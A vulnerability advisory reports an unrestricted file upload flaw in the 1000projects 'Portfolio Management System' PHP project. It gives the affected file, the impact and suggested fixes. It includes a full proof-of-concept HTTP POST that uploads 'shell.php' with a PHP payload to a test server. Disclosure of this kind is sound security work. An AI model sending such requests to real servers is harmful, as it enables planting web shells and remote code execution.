



# 1000projects Portfolio Management System MCA Project using PHP and MySQL V1.0 /add_achievement_details.php unrestricted file upload

## NAME OF AFFECTED PRODUCT(S)

- ` Portfolio Management System MCA Project using PHP and MySQL`

## Vendor Homepage

- https://1000projects.org/portfolio-management-system-mca-project-using-php-and-mysql.html

## Software Link

- https://1000projects.org/wp-content/uploads/2022/11/Portfolio-MP.7z

## Vendor

- `1000projects`

## Vulnerability Type

- `Unrestricted Upload`

## Root Cause

- An arbitrary file upload vulnerability was found in the /add_achievement_details.php file of the "Portfolio Management System MCA Project using PHP and MySQL" project.  This vulnerability can be exploited without requiring any special permissions.

  

## Impact

- Attackers can use this arbitrary file upload vulnerability to control servers and remote command execution, which poses a serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Portfolio Management System MCA Project using PHP and MySQL", wangjiawei  discovered a critical arbitrary file upload vulnerability in the "/add_achievement_details.php" file.    This vulnerability can be exploited without requiring any special permissions. Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

### poc
```
POST /add_achievement_details.php HTTP/1.1
Host: 192.168.75.230:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------81659350143997101828602662
Content-Length: 698
Origin: http://192.168.75.230:8080
Sec-GPC: 1
Connection: close
Referer: http://192.168.75.230:8080/achievement_details.php
Cookie: PHPSESSID=2vlp63ah40dpfu1essnne5at9c
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------81659350143997101828602662
Content-Disposition: form-data; name="ach_name"

1
-----------------------------81659350143997101828602662
Content-Disposition: form-data; name="ach_rank"

1
-----------------------------81659350143997101828602662
Content-Disposition: form-data; name="ach_year"

1
-----------------------------81659350143997101828602662
Content-Disposition: form-data; name="ach_certy"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------81659350143997101828602662
Content-Disposition: form-data; name="submit"

Next ->
-----------------------------81659350143997101828602662--

```





## Suggested fixes

1. The storage location of the uploaded file is separate from the server.
2. Modify the file name and file suffix of the uploaded file. (How to determine the suffix name to prevent modification: front-end pass, back-end re-check)
3. The file upload path is separated based on the service. Download according to the generated file name.
